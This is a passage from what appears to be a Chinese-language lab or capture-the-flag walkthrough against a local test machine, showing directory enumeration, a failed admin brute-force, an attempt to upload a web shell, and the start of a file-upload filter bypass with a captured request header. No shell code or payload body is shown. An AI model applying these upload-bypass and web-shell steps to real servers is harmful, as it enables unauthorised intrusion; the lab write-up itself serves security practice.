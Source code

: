 ```Python
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 185] [--> http://192.168.9.8/uploads/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.9.8/admin/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.002.png)

/uploads是空的。

看下/admin

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.003.png)

爆破一下

没有啥结果

## 3. 2.文件上传

访问/upload.html

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.004.png)

传一个马上去

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.005.png)

扫描目录发现有/uploads目录

大概率就是上传到这个目录了

访问发现有问题。修改文件后缀为txt 发现可以访问

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.006.png)

这应该是对文件格式进行了限制

尝试大小写绕过失败，

## 4. 3.文件上传绕过

观察数据包

```Python
POST /upload.php HTTP/1.1
Host: 192.168.9.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Viewer/99.9.8782.87
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------170435815133440741313678117785
Content-Length: 509
Origin: http://192.168.9.8
Connection: keep-alive
Referer: http://192.168.9.8/upload.html
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
```